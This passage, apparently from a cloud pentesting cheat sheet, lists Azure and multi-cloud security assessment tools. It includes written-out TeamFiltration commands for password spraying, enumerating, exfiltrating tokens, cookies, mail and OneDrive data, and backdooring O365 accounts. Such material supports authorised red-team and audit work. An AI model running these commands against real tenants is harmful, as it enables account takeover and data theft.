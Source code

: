     Get-Help Invoke-Monkey365 -Examples
    Get-Help Invoke-Monkey365 -Detailed
    ```
* [**prowler-cloud/prowler**](https://github.com/prowler-cloud/prowler) - Prowler is an Open Source Security tool for AWS, Azure, GCP and Kubernetes to do security assessments, audits, incident response, compliance, continuous monitoring, hardening and forensics readiness. Includes CIS, NIST 800, NIST CSF, CISA, FedRAMP, PCI-DSS, GDPR, HIPAA, FFIEC, SOC2, GXP, Well-Architected Security, ENS and more
* [**projectdiscovery/nuclei-templates**](https://github.com/projectdiscovery/nuclei-templates/tree/main/cloud/azure) - Community curated list of templates for the nuclei engine to find security vulnerabilities.
    ```ps1
    nuclei -t ~/nuclei-templates/cloud/azure/ -code -v
    ```
* [**nccgroup/ScoutSuite**](https://github.com/nccgroup/ScoutSuite) - Multi-Cloud Security Auditing Tool
* [**Flangvik/TeamFiltration**](https://github.com/Flangvik/TeamFiltration) - TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts
    ```ps1
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --cookie-dump C:\\CookieData.txt --all
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --aad 
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --tokens C:\\OutputTokens.txt --onedrive --owa
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --backdoor
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --database
    ```
* [**Azure/StormSpotter**](https://github.com/Azure/Stormspotter) - :warning: This repository has not been updated recently - Azure Red Team tool for graphing Azure and Azure Active Directory objects
* [**nccgroup/Azucar**](https://github.com/nccgroup/azucar.git) - :warning: This repository has been archived - Azucar automatically gathers a variety of configuration data and analyses all data relating to a particular subscription in order to determine security risks.
* [**FSecureLABS/Azurite**](https://github.com/FSecureLABS/Azurite) - :warning: This repository has not been updated recently - Enumeration and reconnaissance activities in the Microsoft Azure Cloud.
* [**cyberark/SkyArk**](https://github.com/cyberark/SkyArk) - :warning: This repository has not been updated recently - Discover the most privileged users in the scanned Azure environment - including the Azure Shadow Admins.   

## Azure AD - User Enumeration
